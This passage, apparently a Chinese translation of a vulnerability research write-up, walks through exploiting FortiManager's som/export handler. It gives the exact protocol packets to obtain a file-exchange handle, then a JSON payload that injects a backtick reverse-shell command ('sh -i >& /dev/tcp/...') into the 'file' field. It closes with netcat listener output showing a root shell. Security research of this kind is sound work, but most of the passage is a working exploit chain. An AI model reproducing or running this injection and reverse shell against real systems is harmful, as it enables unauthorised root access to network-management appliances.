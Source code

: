 **到达som/export**  
  
剩下的谜题就是如何调用该函数som/export。进一步逆向分析发现，该函数正在执行某种文件传输操作。它传输的具体内容对我们来说并不重要，只要我们可以启动导出并提供一些传递给该调用的数据即可system。  
  
经过进一步的逆向分析，我们发现该som/export函数需要由命令分配的文件传输句柄get file_exchange。  
  
这很简单 - 我们只需打开与 FortiManager 的连接，并发送以下数据包：  
  
```
get file_exchange
localid=128
chan_window_sz=32768
deflate=gzip
file_exch_cmd=put_json_cmd
```  
  
  
我们获得了一个有效的转移句柄（在本例中为 61704）：  
  
```
action=ack
localid=61704
remoteid=544
```  
  
  
然后我们可以使用它，channel使用 JSON 有效负载调用命令，并指定som/export处理程序。  
  
```
channel
remoteid=61704

217
{
  "method": "exec",
  "id: 1,  "params": [    {      "url": "um/som/export",      "data": {        "file": "`sh -i >& /dev/tcp/192.168.1.1/80 0>&1`"      }    }  ]}
```  
  
  
您会注意到我们甚至通过/dev/tcp设备节点（幸运的是，FortiManager 设备公开了它）包含了一个很好的回调 shell。  
  
一跳，一跳，一跳——当我们发送这个序列时，我们会得到一个很好的回调外壳：  
  
```
nc -lvvnp 80
listening on [any] 80 ...
connect to [192.168.1.1] from (UNKNOWN) [192.168.1.110] 22658
sh: cannot set terminal process group (27128): Inappropriate ioctl for device
sh: no job control in this shell

sh-5.2# id
id
uid=0(root) gid=0(root)
sh-5.2# hostname
hostname
FMG-VM64
sh-5.2#
```  
  